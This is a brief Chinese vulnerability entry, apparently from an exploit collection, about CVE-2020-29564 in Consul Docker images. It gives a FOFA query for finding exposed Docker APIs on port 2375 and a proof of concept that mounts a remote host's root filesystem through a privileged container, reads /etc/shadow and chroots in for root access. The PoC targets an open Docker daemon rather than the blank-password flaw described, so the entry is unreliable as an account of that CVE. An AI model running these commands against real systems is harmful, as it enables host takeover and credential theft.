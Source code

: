 # Consul Docker images 空密码登录漏洞 CVE-2020-29564

## 漏洞描述

Consul Docker images 0.7.1至1.4.2版本部署的Consul Docker容器的系统，可能允许远程攻击者使用空白密码来实现root用户访问。

参考链接：

- https://github.com/koharin/CVE/blob/main/CVE-2020-29564

## 漏洞影响

```
Consul Docker images 0.7.1-1.4.2
```

## FOFA

```
port="2375" && protocol=="docker"
```

## 漏洞复现

poc：

```
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

File Access: cat /mnt/etc/shadow
RCE: chroot /mnt
```

